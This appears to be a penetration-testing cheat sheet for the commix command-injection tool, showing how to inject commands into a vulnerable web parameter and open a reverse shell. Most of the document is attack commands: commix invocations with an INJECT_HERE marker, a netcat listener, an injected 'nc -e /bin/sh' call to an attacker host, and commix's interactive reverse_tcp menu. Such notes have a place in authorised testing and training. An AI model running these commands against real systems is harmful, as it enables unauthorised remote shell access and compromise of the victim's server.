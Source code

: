 Commix Reverse Shell
====================

READ THIS LINK!!
https://github.com/commixproject/commix/wiki/Reverse-Shells

Load from saved file (contains cookies, tokens, etc)
---------------------------------------------------
```bash
commix -r /must/use/full/path/to/file.txt
```
Examples
---------
```bash
# Notice the "INJECT_HERE" param
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch 
# Use proxy to make sure you are doing what you think you are
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch --proxy=http://localhost:8080
# --data is used for POST and adds the data to the body, not the url
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php' --data=ip="INJECT_HERE" --os=unix --batch --proxy=http://localhost:8080
```


Technique 1
-----------
```bash
# Start NC listener on attackers server
nc -lvp 1234

commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```
Technique 2
-----------
````bash
# Start NC listener on attackers server
nc -lvp 1234

# Exploit Found
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
